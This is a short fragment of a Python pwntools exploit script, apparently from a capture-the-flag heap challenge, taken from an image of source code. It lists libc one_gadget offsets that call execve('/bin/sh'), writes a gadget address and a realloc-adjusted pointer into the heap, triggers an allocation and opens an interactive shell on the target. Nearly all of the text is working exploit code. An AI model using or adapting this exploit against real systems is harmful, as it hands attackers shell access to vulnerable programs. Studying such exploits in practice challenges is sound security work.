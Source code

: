 ```
add(0x50, 2, 'n')
'''
0x45216 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf02a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1147 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
'''
add(0x50, 2, p64(libc_addr + 0xf1147) + p64(libc_addr + libc.symbols['realloc'] + 20))

sh.sendlineafter('choice &gt;&gt; n', '1')
sh.sendlineafter('Size : ', str(1))
sh.sendlineafter('index: ', str(1))

sh.interactive()
clear()
```
